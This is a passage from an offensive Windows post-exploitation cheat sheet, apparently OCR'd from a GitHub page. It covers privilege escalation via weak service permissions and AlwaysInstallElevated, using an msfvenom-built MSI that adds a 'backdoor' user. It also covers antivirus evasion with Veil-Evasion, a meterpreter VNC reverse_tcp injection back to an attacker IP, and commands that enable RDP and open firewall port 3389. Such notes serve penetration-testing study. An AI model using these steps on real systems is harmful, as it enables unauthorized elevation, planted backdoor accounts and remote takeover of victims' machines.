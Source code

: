 sc start <vuln-service>


###Metasploit module:
exploit/windows/local/service_permissions
##AlwaysInstallElevated

AlwaysInstallElevated is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions.

Check if these 2 registry values are set to “1”:

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

If they are, create your own malicious msi:

msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi

Then use msiexec on victim to execute your msi:

msiexec /quiet /qn /i C:\evil.msi

###Metasploit module:
exploit/windows/local/always_install_elevated

##Bypassing AV

Use Veil-Evasion
Create your own executable by “compiling” PowerShell scripts
Use Metasploit to substitute custom EXE and MSI binaries. You can set EXE::Custom or MSI::Custom to point to your binary prior to executing the module.
Getting GUI

+ Using meterpreter, inject vnc session:
run post/windows/manage/payload_inject payload=windows/vncinject/reverse_tcp lhost=<yourip> options=viewonly=false
+ Enable RDP:

netsh firewall set service RemoteDesktop enable
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t
REG_DWORD /d 0 /f
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
sc config TermService start= auto
net start Termservice
netsh.exe
firewall
add portopening TCP 3389 "Remote Desktop"
OR:
netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (TCP-In)" dir=in action=allow
program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the
Remote Desktop service to allow RDP traffic. [TCP 3389] added by LogicDaemon's script" enable=yes
profile=private,domain localport=3389 protocol=tcp
netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (UDP-In)" dir=in action=allow
program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the
Remote Desktop service to allow RDP traffic. [UDP 3389] added by LogicDaemon's script" enable=yes
profile=private,domain localport=3389 protocol=udp
OR (meterpreter)
run post/windows/manage/enable_rdp
https://www.offensive-security.com/metasploit-unleashed/enabling-remote-desktop/
